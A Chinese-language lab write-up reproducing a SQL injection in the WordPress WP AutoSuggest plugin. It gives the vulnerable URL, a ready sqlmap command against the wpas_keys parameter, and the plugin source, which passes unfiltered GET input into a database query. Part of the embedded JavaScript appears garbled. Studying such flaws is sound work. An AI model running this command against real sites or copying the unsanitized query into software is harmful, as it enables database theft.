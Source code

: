 # WordPress Plugin - AutoSuggest sql注入

### 一、漏洞简介

WP AutoSuggest这款插件在访问者输入关键字时，插件会在提交搜索查询之前通过AJAX请求在网页中显示一些建议。访问者可以通过按Enter继续搜索，或者访问者可以使用键盘箭头直接访问建议的帖子。

### 二、漏洞影响

### 三、复现过程

首先我们得进入exploit-db网站上下载这个存在漏洞的版本的插件原始码和本地构建WordPress网站（本地构建WordPress这里就不说了）。下载源码，如下图所示

![](images/15894214007835.png)


下载完成之后，把wp-autosuggest目录直接拖到Wordpress目录的\wp-content\plugins\下。

![](images/15894214080600.png)


接着，登录后台，启用这款插件，如下图所示：

![](images/15894214153726.png)


启用后，退出后台，如下图所示：

![](images/15894214223554.png)


然后根据exploit-db网站上给出的漏洞详情，我们访问下面的URL：


```
http://url/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1
```

访问后，网页内容如下图所示：

![](images/15894214461092.png)


根据exploit-db网站上给出的漏洞详情，我们也知道了wpas_keys参数存在注入，于是我们可以使用SQLMAP注入神器，对网站进行注入。SQLMAP命令如下：


```shell
sqlmap.py -u "http://url/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1*" --technique BT --dbms MYSQL --risk 3 --level 5 --tamper space2comment
```

一开始，笔者使用的时php5.2.17+Apache的环境，结果复现不了，头疼了半天，如下图：

![](images/15894214701012.png)


后来笔者换了一个php-5.4.45+Apache的环境，就解决了。

![](images/15894214818357.png)


通过SQLMAP，成功获取到服务器的一些信息，如下图所示：

![](images/15894214904393.png)


下图也成功跑出了当前数据库的名称。

![](images/15894214979004.png)


#### 漏洞分析

分析WordPress插件的话还是挺容易的。文件和代码也不是很多，用Notepad++就够用啦。进入插件根目录下面就看到了autosuggest_functions.php、autosuggest.php这两个php文件。

![](images/15894215280867.png)


下面是autosuggest.php文件所有代码：


```php
<?php
include 'autosuggest_functions.php';

$wpas_action = '';
$wpas_keys = '';
if(isset($_GET['wpas_action'])) {
    $wpas_action = $_GET['wpas_action'];
}
if (isset($_GET['wpas_keys'])) {
    $wpas_keys = $_GET['wpas_keys'];
}


if ($wpas_action == 'query') {

    require_once ('../../../wp-config.php');

    header('Content-Type: text/xml');
    echo '<results>';

    global $wpdb;

    $wpas_keys = str_replace(' ','%',$wpas_keys);
    $pageposts = $wpdb->get_results("SELECT * FROM $wpdb->posts WHERE (post_title LIKE '%$wpas_keys%') AND post_status = 'publish' ORDER BY post_date DESC");
    foreach ($pageposts as $post) {
        setup_postdata($post);
        echo "<rs id=\"";
        the_permalink();
        echo "\" info=\"" . autosuggest_excerpt(apply_filters('the_title', get_the_content())) . "\">";
        the_title();
        echo "</rs>";
    }
    echo '</results>';
    die();
}

define('AUTOSUGGEST_DIR', get_option('siteurl') . '/' . PLUGINDIR.'/'.dirname(plugin_basename(__FILE__)));


function add_autosuggest_css() {
    wp_register_style('autosuggestCSS', AUTOSUGGEST_DIR . '/css/wp_autosuggest.css', null, '1', 'screen');
    wp_enqueue_style('autosuggestCSS');
}

function add_autosuggest_js() {
    wp_register_script('autosuggestJS', AUTOSUGGEST_DIR . '/js/wp.autosuggest.js', null, '1');
    wp_enqueue_script('autosuggestJS');
}

function add_autosuggest_footer_code() {
?>
<script type="text/javascript">
var autosuggest_options = {
    script: "<?php echo AUTOSUGGEST_DIR; ?><?php echo __('No results found.'); ?><?php echo get_wpas_option('wpas_maxresults','10'); ?>
};
var as = new AutoSuggest('<?php echo get_wpas_option('wpas_input_id','s'); ?></script>
<?php
}

function add_autosuggest_settings() {
?>
<div class="wrap">

    <?php

        $smsg = "";
        if (isset($_POST['submitoptions'])) {
            if (isset($_POST['wpas_input_id'])) {
                update_option('wpas_input_id',$_POST['wpas_input_id']);
            }
            if (isset($_POST['wpas_maxresults'])) {
                update_option('wpas_maxresults',$_POST['wpas_maxresults']);
            }
            ?>

            <div id="message" class="updated fade"><p>WP AutoSuggest settings updated.</p></div>

    <?php } ?>

    <h2>WP AutoSuggest Settings</h2>

    <form action="" method="post">
    <table class="form-table">
        <tr valign="top">
        <th scope="row">Search Input ID</th>
        <td>
        <input type="text" value="<?php echo get_wpas_option('wpas_input_id','s'); ?>" id="wpas_input_id" name="wpas_input_id"/><br/>
        Default value is 's' which is used with the default WordPress theme. 
        </td>
        </tr>
        <tr valign="top">
        <th scope="row">Max Results</th>
        <td>
        <input type="text" value="<?php echo get_wpas_option('wpas_maxresults','10'); ?>" id="wpas_maxresults" name="wpas_maxresults"/><br/>
        Maximum number of suggested results (10 by default).
        </td>
        </tr>
    </table>
    <p class="submit"><input type="submit" name="submitoptions" value="Update Settings" /></p>
    </form>
    </div>
<?php
}

function add_autosuggest_menu_settings() {
    if (function_exists('add_options_page')) {
         add_options_page(
             "WP AutoSuggest"
             , "WP AutoSuggest"
             , 7
             , basename(__FILE__)
             , 'add_autosuggest_settings');
    }
}

add_action('wp_print_scripts', 'add_autosuggest_js');
add_action('wp_print_styles', 'add_autosuggest_css');
add_action('wp_footer', 'add_autosuggest_footer_code');
add_action('admin_menu', 'add_autosuggest_menu_settings');


?>
```

相信大家没看几行就看出了问题的所在，变量wpas_keys是直接获取GET中的wpas_keys。一点都没过滤，并且在下面代码中，变量wpas_keys也带入数据库中查询了（wpdb是wordpress操作数据库方法），于是SQL注入就产生了。

![](images/15894216482664.png)


四、参考链接

https://www.exploit-db.com/exploits/45977

https://www.freebuf.com/vuls/191869.html